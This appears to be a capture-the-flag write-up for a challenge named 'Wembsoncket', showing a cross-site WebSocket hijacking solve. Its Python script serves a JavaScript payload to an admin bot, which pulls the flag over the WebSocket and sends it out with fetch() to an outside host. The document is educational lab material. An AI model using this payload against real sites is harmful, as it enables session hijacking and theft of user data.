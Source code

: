 ```yaml
---
ai_date: 2025-05-17 21:39:09
ai_summary: Unprotected WebSocket allows remote code execution and flag retrieval
ai_tags:
  - ws
  - xss
  - rce
created: 2025-05-17T05:00
points: 446
solves: 88
title: Wembsoncket
updated: 2025-05-17T22:01
---
```


Well there is no protection what-so-ever.

We can run whatever JS we want just by serving a page to the bot.

Straight forward exploit, we make the bot connect to the websocket and then get the flag, then send the flag back to us.

```python
from server import webhook
import requests
import asyncio
import json
import websockets

payload = """
<script>
  const ws = new WebSocket('wss://wembsoncket.chal.cyberjousting.com');
  ws.onopen = () => {
    ws.send(JSON.stringify({ message: '/getFlag' }));
  };
  ws.onmessage = ev => {
    const data = JSON.parse(ev.data).message;
    fetch(`https://1337.yun.ng?flag=${encodeURIComponent(data)}`);
  };
</script>
"""

async def main():
    s = requests.Session()
    target = "https://wembsoncket.chal.cyberjousting.com"
    s.get(target)
    token = s.cookies.get("token")
    uri = "wss://wembsoncket.chal.cyberjousting.com"
    print("Token:", token)
    extra_headers = {'Cookie': f'token={token}'}

    stop, wait = webhook(1337, content_type="text/html", payload=payload)
    async with websockets.connect(uri, extra_headers=extra_headers) as websocket:
        message = {"message": "https://1337.yun.ng"}
        await websocket.send(json.dumps(message))
        print("Sent:", message)
        a = wait()
        print(a)
        b = wait()
        print('flag', b)
        response = await websocket.recv()
        print("Received:", response)
        stop()
        print("Server stopped.")

if __name__ == "__main__":
    asyncio.run(main())
```

```flag
byuctf{CSWSH_1s_a_b1g_acr0nym}
```
